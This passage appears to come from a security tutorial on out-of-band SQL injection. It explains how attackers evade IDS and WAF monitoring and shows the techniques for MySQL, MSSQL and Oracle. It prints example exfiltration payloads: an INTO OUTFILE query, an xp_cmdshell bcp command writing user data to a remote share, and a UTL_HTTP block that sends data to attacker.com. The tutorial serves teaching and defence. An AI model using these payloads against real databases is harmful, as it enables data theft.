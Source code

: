 Additionally, Intrusion Detection Systems (IDS) and Web Application Firewalls (WAFs) often monitor and log SQL query responses for suspicious activity, blocking direct responses from potentially malicious queries. By leveraging OOB channels, attackers can avoid detection by using less scrutinized network protocols like DNS or SMB to transfer data. This is particularly useful in network environments with limited direct connectivity between the attacker and the database server, such as when the server is behind a firewall or in a different network segment.

### Techniques in Different Databases

Out-of-band SQL injection attacks utilise the methodology of writing to another communication channel through a crafted query. This technique is effective for exfiltrating data or performing malicious actions when direct interaction with the database is restricted. There are multiple commands within a database that may allow exfiltration, but below is a list of the most commonly used in various database systems:

### MySQL and MariaDB

In MySQL or MariaDB, Out-of-band SQL injection can be achieved using [SELECT ... INTO OUTFILE](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) or [load\_file](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file) command. This command allows an attacker to write the results of a query to a file on the server's filesystem. For example:

```php
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';
```

An attacker could then access this file via an SMB share or HTTP server running on the database server, thereby exfiltrating the data through an alternate channel.

Microsoft SQL Server (MSSQL)

In MSSQL, Out-of-band SQL injection can be performed using features like [xp\_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16), which allows the execution of shell commands directly from SQL queries. This can be leveraged to write data to a file accessible via a network share:

```php
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';
```

Alternatively, `OPENROWSET` or `BULK INSERT` can be used to interact with external data sources, facilitating data exfiltration through OOB channels.\


### Oracle 

In Oracle databases, Out-of-band SQL injection can be executed using the [UTL\_HTTP](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_HTTP.html) or [UTL\_FILE](https://docs.oracle.com/en/database/oracle/oracle-database/19/arpls/UTL_FILE.html) packages. For instance, the UTL\_HTTP package can be used to send HTTP requests with sensitive data:

```php
DECLARE
  req UTL_HTTP.REQ;
  resp UTL_HTTP.RESP;
BEGIN
  req := UTL_HTTP.BEGIN_REQUEST('http://attacker.com/exfiltrate?sensitive_data=' || sensitive_data);
  UTL_HTTP.GET_RESPONSE(req);
END;
```
